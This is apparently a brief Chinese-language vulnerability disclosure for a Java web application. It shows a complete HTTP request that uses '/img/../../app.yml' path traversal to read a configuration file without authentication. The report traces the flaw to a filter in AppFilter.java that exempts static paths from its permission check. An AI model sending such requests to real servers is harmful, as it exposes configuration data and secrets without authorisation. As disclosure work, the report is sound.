


## 漏洞复现

**GET** /img/../../app.yml **HTTP/1.1**

**Host**: 192.168.8.121:8080

**Origin**: http://192.168.8.121:8080

X-Requested-With: XMLHttpRequest

Accept-Encoding: gzip, deflate

**Referer**: http://192.168.8.121:8080/adminPage/monitor

Accept-Language: zh-CN,zh;q=0.9

**User-Agent**: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36

Accept: application/json, text/javascript, */*; q=0.01

## 漏洞原理：

com/cym/config/AppFilter.java中1，包含静态页面可绕过权限检测，后续无检测../的步骤
